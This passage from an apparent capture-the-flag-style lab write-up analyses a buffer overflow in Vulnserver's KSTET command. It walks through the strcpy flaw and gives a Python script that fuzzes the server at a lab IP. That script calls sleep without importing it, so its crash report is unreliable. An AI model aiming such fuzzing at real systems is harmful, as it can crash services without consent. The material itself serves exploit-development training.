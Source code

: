 While spiking KSTET command, we could see that we could not connect to the Vulnserver anymore

Yes.. It got crashed!!

We could see that our Vulnserver application has been terminated by ```Access Violation error```

From this we can confirm that, ```KSTET``` command is vulnerable to Buffer Overflow attack

## Analysing the source code

The source code for this command is,

```c
else if (strncmp(RecvBuf, "KSTET ", 6) == 0) {
				char *KstetBuf = malloc(100);
				strncpy(KstetBuf, RecvBuf, 100);
				memset(RecvBuf, 0, DEFAULT_BUFLEN);
				Function2(KstetBuf);
				SendResult = send( Client, "KSTET SUCCESSFUL\n", 17, 0 );
			}
```

It copies only ```100 bytes``` of our data into ```KstetBuf``` by using ```strncpy()```

```strncpy()``` is not vulnerable, but we have only ```small buffer space``` which becomes a constraint for us

After storing these, it invokes the vulnerable function ```Function2(KstetBuf)```

The souce code of this vulnerable function is,

```c
void Function2(char *Input) {
	char Buffer2S[60];
	strcpy(Buffer2S, Input);
}
```

Here the main overflow attack is caused by ```strcpy``` function, where Buffer2S is only limited for ```60 bytes``` but the incoming buffer has more data (100 bytes) than that causing it to overflow the Buffer2S buffer while copying

This command does not expects any special character used for validation

## Fuzzing the server

We have successfully crashed our server and the payload data begins with ```KSTET ```which is made up of ```6 bytes```

Lets create a python script which generates payload data and fuzzes the payload length to crash the server

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ cat fuzzing.py        
import socket, sys
payload=b"A"*100
while True:
    try:
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(("192.168.116.140", 9999))
        s.send((b"KSTET "+payload))
        sleep(5)
        payload=payload+b"A"*100
    except:
        print("Fuzzing crashed at %s bytes"%(len(payload)))
        sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/KSTET]
└─$ python3 fuzzing.py   
```